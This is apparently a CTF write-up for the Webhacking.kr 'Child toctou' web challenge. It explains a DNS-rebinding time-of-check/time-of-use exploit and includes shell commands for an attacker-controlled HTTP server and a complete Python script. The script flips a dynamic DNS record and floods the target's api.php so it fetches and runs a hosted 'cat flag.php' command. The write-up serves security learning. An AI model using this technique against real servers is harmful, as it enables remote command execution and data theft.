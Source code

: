 ```yaml
---
layout: post
title: "[Webhacking.kr] Child toctou 🚲 writeup (cont'd)"
categories: hacking writeup web
---
```


## Introduction
Link: [http://webhacking.kr:10020/](http://webhacking.kr:10020/)

In the last part, I have found the vulnerable code in `api.php`. The only thing that prevented me from solving that
was the dynamic DNS functionality. With the suggestion from a friend, I finally found a way to make my exploitation
idea work.

## The exploitation

### Dynamic DNS

NoIP's Dynamic DNS service is a free service that allows us to create a DNS record. Let's make use of that.

![change_dns](/assets/images/child-toctou/change_dns.png)

But I don't want to do it manually, so I inspect the API calls on the site, and convert to Python for automation

### DNS Resolver

Python can use OS's DNS resolver with `socket.gethostbyname` method, but it is slow and behind DNS caching mechanisms which can not be bypassed. So I used `dnspython` library.

One thing I noticed was when changing DNS record, DNS servers don't reflect the change immediately. There are some jumpings back and forth between the old and the new IPs. So my code didn't reliably work every time, but that is okay because I just need to see the flag once and I'm done.


### Exposing my server

Now how do I expose my server to carry the payload? I tried using ngrok, but ngrok free plan can not expose a specific port. So I decided to buy a cheap VPS from Vultr with an public IPv4 address.
One notice is Vultr blocks all incoming traffic except on port 22 (SSH) by default, so in order to expose port 10020, we need to unblock it first

```sh
sudo ufw allow from 202.182.106.159 proto tcp to any port 10020 
```

After creating the required folder structure, I ran the server

```sh
mkdir cmd
echo "cat flag.php" > cmd/ls.txt
python3 -m http.server 10020
```

## Exploitation code

__Warning: Sensitive information got stripped off the script, so it won't run.__
```python
import requests, threading, time
import dns.resolver as dns

g_done = False

def __noip_request(ip):
    cookies = {
        'REF_CODE': 'https%3A%2F%2Fwww.noip.com%2Fmembers%2Fdns%2F',
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    }

    params = {
        'host_id': '******',
    }

    data = {
        'token': '******',
        'host[host]': 'l4rzy',
        'host[domain]': 'ddns.net',
        'host[ttl]': '60',
        'host[group_id]': '0',
        'host[type]': 'a',
        'host[ip]': ip,
        'nlocations': '0',
        'host[alias]': '',
        'host[ipv6]': '',
        'host[aname]': '',
        'host[port][ip]': '',
        'host[port][port]': '8080',
        'host[redirect][protocol]': 'https',
        'host[redirect][url]': '',
        'host[mask][title]': '',
        'host[mask][meta_keywords]': '',
        'host[mask][meta_desc]': '',
        'host[mx][0][mx]': '',
        'host[mx][0][priority]': '5',
        'do': 'update',
    }

    response = requests.post('https://www.noip.com/members/dns/host.php', params=params, cookies=cookies, headers=headers, data=data)


def change_dns(toMyServer = True):
    __noip_request('******' if toMyServer else '202.182.106.159')


def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10020/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
        'Host': 'l4rzy.ddns.net',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10020/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    result = response.text
    if "wrong" not in result and "total 16" not in result: # this is not guaranteed to work but it worked
        print(result)

def check_ip(host, ip):
    result = dns.resolve(host, 'A')
    for i in result:
        resolved = i;
    print(resolved, flush=True)
    return resolved.to_text() == ip

def check_ip_times(host, ip, times):
    for i in range(times):
        if check_ip(host, ip) == False:
            return False
    return True

print('[info] changing the DNS A record to the designated IP ...')
ip_set = check_ip('l4rzy.ddns.net', '202.182.106.159')

if ip_set == False:
    change_dns(toMyServer = False)
    while ip_set ==  False:
        ip_set = check_ip_times('l4rzy.ddns.net', '202.182.106.159', 2)
        time.sleep(1)
        
print('done')
# ---------------------
print('[info] redirecting to our site ...', flush=True)
change_dns()
print(f'[info] getting in ...')
done = False

while not done:
    check_ip('l4rzy.ddns.net', '******')
    jobs = list()
    for i in range(10):
        jobs.append(threading.Thread(target=send, args=('ls',)))
        jobs[i].start()
        
    for i in range(10):
        jobs[i].join()
```

And when we see a bunch of requests like this on our server, the challenge got pwned.

![server_output](/assets/images/child-toctou/server_output.png)

## Conclusion
I was surprised that there were only 18 people have solved this challenge (I was the 19th). I believe many people have the idea to solve, but the process of solving it is a little bit cumbersome.